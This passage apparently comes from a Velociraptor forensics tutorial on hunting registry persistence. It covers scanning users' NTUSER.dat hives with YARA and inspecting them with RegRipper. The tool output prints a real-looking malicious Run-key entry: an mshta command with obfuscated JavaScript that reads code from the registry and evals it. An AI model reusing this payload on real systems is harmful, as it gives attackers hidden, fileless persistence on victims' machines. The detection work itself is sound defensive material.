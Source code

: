 This query:

1.  Selects all the usernames and their home directory from the
    Windows.Sys.Users artifact.
2.  For each directory prepends \\\\\\\\.\\\\ and appends
    \"ntuser.dat\". For example c:\\\\Users\\\\test becomes
    \\\\\\\\.\\\\c:\\\\Users\\\\test\\\\NTUSER.dat
3.  The file is accessed using the NTFS filesystem accessor. This is
    necessary because the registry hive is locked if the user is logged
    in. Therefore we must access it using raw NTFS parsing to bypass the
    OS locking.
4.  For each file that matches the yara expression, we upload the file
    to the server for further analysis.

Lets run this new artifact on the server:

![image](powershell5.png)

Unlike the previous artifact, this one simply returns the YARA hit, but
because we do not have any context on which value contained the
signature, or even if it had been deleted. Luckily we uploaded the raw
registry hive for further analysis, and we can use a tool such as
RegRipper to extract more information from the hive:

``` {.sourceCode .console}
$ wine rip.exe -p user_run -r
/tmp/velociraptor/clients/C.c916a7e445eb0868/uploads/F.078739d6/ntfs/
%5C%5C.%5CC%3A%5CUsers%5Cuser1%5CNTUSER.DAT
Launching user_run v.20140115
user_run v.20140115
(NTUSER.DAT) [Autostart] Get autostart key contents from NTUSER.DAT hive

Software\Microsoft\Windows\CurrentVersion\Run
LastWrite Time Thu Sep 27 01:19:08 2018 (UTC)
 OneDrive: "C:\Users\user1\AppData\Local\Microsoft\OneDrive\OneDrive.exe"
   /background
 c:\windows\system32\mshta.exe: about:<script>c1hop="X642N10";
   R3I=new%20ActiveXObject("WScript.Shell");
   QR3iroUf="I7pL7";k9To7P=R3I.RegRead("HKCU\\software\\
   bkzlq\\zsdnhepyzs");J7UuF1n="Q2LnLxas";eval(k9To7P);JUe5wz3O="zSfmLod";</script>
```
